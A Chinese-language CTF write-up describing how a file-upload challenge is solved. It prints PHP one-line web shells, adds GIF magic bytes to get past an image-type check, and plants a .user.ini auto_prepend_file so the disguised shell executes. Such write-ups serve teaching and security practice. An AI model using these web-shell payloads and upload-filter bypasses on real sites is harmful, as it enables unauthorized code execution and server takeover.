 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-19
---
```




##  flag



##  思路

1. 打开网页是比较明显的文件上传的题目。一般文件上传的题目，首先就制作一句话木马上传，然后查看是否返回提示信息。

2. 最普通的一句话木马,保存为php文件，然后上传，显示如下，说明后端不允许上传php文件。

   `<?php @eval($_POST('pass'))?>`

   <img src="../images/image-20201223145657037.png" alt="image-20201223145657037" style="zoom:33%;" />

3. 然后将后缀改为.jpg后再上传，结果如下，检测出<?，说明后端对上传文件有所检查，如果有<?则不允许上传。

   <img src="../images/image-20201223145956261.png" alt="image-20201223145956261" style="zoom:33%;" />

   因此可考虑换其他木马。

   `<script language="php">eval($_POST['a']);</script>`

   <img src="../images/image-20201223150237140.png" alt="image-20201223150237140" style="zoom:33%;" />

4. 此时又显示exif_imagetype:not image!

   exif_imagetype是一个判断图像类型的函数，会读取图像的第一个字节并检查其签名

   常见图片的开头几个字节如下：

   > - JPG ：FF D8 FF E0 00 10 4A 46 49 46
   > - GIF(相当于文本的GIF89a)：47 49 46 38 39 61
   > - PNG： 89 50 4E 47

   因此，在上传的木马最前面加上以上字节即可。

   <img src="../images/image-20201223151136107.png" alt="image-20201223151136107" style="zoom:33%;" />

5. 到此步，已经可以成功上传带有木马的jpg文件，但jpg文件并不能直接执行，因此要想办法能让a.jpg以某种方式执行，然后我们就可以用御剑进行连接。

6. 上传**.user.ini**文件

   ```
   GIF
   auto_prepend_file=a.jpg
   ```

   该文件的含义是当访问同文件下的任何一个文件时，都会包含a.jpg文件。

   <img src="../images/image-20201223152036109.png" alt="image-20201223152036109" style="zoom:50%;" />

   根据显示的结果，可以看到该目录下同样还有index.php，因此此时在访问index.php文件时，默认会在index.php文件的前面加上a.jpg的内容，即可利用御剑进行连接。

   ```html
   URL地址：http://1d52bb40-2953-4635-a1e0-43a09c024d11.node3.buuoj.cn
   /uploads/e2e7ec165ba05a5e1f3198caa7e22b54/index.php
   密码：pass
   ```



## 总结

- 对于文件上传的题目，应该多尝试上传几种文件。
  - 最常见的一句话木马
  - 文件后缀
  - 图片的文件头标志
- 成功上传图片马--》使用.user.ini配置文件间接执行图片马

